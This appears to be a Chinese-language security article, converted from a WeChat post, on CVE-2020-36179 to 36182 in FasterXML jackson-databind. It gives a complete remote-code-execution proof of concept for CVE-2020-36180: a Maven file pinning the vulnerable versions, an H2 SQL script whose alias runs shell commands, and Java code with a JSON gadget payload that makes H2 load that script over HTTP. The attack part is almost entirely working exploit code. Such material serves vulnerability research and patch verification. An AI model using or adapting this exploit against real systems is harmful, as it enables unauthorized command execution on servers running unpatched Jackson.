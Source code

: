 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ci_VGk8cFiB4mlVU9auHrQ)

描述  

-----

            CVE-2020-36179：2.9.10.8 之前的 FasterXML jackson-databind 2.x 错误处理了序列化小工具和键入之间的交互，与 oadd.org.apache.commons.dbcp.cpdsadapter.DriverAdapterCPDS 有关。

            CVE-2020-36180：2.9.10.8 之前的 FasterXML jackson-databind 2.x 处理与 org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS 相关的序列化小工具和键入之间的交互。

            CVE-2020-36181：2.9.10.8 之前的 FasterXML jackson-databind 2.x 处理与 org.apache.tomcat.dbcp.dbcp.cpdsadapter.DriverAdapterCPDS 相关的序列化小工具和键入之间的交互。

            CVE-2020-36182：2.9.10.8 之前的 FasterXML jackson-databind 2.x 处理与 org.apache.tomcat.dbcp.dbcp2.cpdsadapter.DriverAdapterCPDS 相关的序列化小工具和键入之间的交互。

如何 RCE
------

            由于上述四个 CVE 安全漏洞是通过类似的方式触发的，因此在这里我们仅以 CVE-2020-36180 为例：

pom.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>com.jacksonTest</groupId>
    <artifactId>jacksonTest</artifactId>
    <version>1.0-SNAPSHOT</version>
    <dependencies>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-databind</artifactId>
            <version>2.9.10.7</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.apache.commons/commons-dbcp2 -->
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-dbcp2</artifactId>
            <version>2.8.0</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/com.h2database/h2 -->
        <dependency>
            <groupId>com.h2database</groupId>
            <artifactId>h2</artifactId>
            <version>1.4.199</version>
        </dependency>

        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-nop</artifactId>
            <version>1.7.2</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
        <dependency>
            <groupId>javax.transaction</groupId>
            <artifactId>jta</artifactId>
            <version>1.1</version>
        </dependency>
    </dependencies>
</project>
```

exec.sql：

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('calc.exe')
```

  
poc.java：

```
import com.fasterxml.jackson.databind.ObjectMapper;
import com.fasterxml.jackson.databind.SerializationFeature;


public class POC {
    public static void main(String[] args) throws Exception {
        String payload = "[\"org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS\",{\"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:3333/exec.sql'\"}]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        mapper.configure(SerializationFeature.FAIL_ON_EMPTY_BEANS, false);
        Object obj = mapper.readValue(payload, Object.class);
        mapper.writeValueAsString(obj);
    }
}
```

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV1a8pJ0xXSGTrMy2IItsibLBCX8CXJTfKuG06Rtc6DaTVhicPxibeyfefJ0Rw6VG7icILbUy2AluH1a2A/640?wx_fmt=png)

小工具：

```
DriverAdapterCPDS
    ->seturl
        ->getPooledConnection
            ->DirverManager.getConnection(this.url,username,pass)
```

项目地址：

  
https://github.com/Al1ex/CVE-2020-36179